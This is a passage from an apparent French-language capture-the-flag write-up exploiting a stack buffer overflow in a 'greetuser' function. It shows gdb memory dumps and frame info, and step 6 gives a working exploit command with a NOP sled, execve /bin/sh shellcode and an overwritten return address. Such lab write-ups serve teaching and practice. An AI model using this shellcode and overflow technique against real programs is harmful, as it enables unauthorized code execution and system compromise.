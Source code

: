 ### Étape 3: Examen de la Mémoire

Après avoir atteint le second point d'arrêt (après `strcat`), nous avons examiné la pile:

```bash
(gdb) x/80wx $esp
0xbffff4c0:     0xbffff4d0      0xbffff520      0x00000001      0x00000000
0xbffff4d0:     0xc3767948      0x20a4c3a4      0x69a4c370      0xc3a4c376
0xbffff4e0:     0x414120a4      0x41414141      0x41414141      0x41414141
0xbffff4f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff500:     0x41414141      0x41414141      0x42424141      0x42424242
0xbffff510:     0x42424242      0x42424242      0x42424242      0x43434343
0xbffff520:     0x44444444      0x44444444      0x00004444      0x00000000
```

### Étape 4: Localisation de l'Adresse de Retour Sauvegardée

Nous avons examiné les informations de frame pour localiser l'adresse de retour sauvegardée:

```bash
(gdb) info frame
Stack level 0, frame at 0xbffff520:
 eip = 0x804851c in greetuser; saved eip 0x43434343
 called by frame at 0xbffff524
 Arglist at 0xbffff518, args:
 Locals at 0xbffff518, Previous frame's sp is 0xbffff520
 Saved registers:
  ebp at 0xbffff518, eip at 0xbffff51c
```

Ceci a montré que notre motif "CCCC" (0x43434343) a écrasé l'adresse de retour sauvegardée à la position 0xbffff51c.

### Étape 5: Analyse du Chemin de Débordement

En analysant la disposition de la mémoire, nous avons déterminé que:

1. Le message finnois commence à 0xbffff4d0
2. Notre entrée username commence à apparaître à 0xbffff4e0
3. Le débordement de la concaténation du message atteint finalement l'adresse de retour sauvegardée à 0xbffff51c

### Étape 6: Test de l'Exploit

Nous avons testé notre compréhension en créant un exploit qui redirige l'exécution vers notre shellcode:

```bash
(gdb) b *greetuser+152
Breakpoint 1 at 0x804851c
(gdb) r "$(python -c 'print "\x90"*(40-21) + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')" "$(python -c 'print "B"*18 + "\x80\xf5\xff\xbf" + "D"*12')"
```
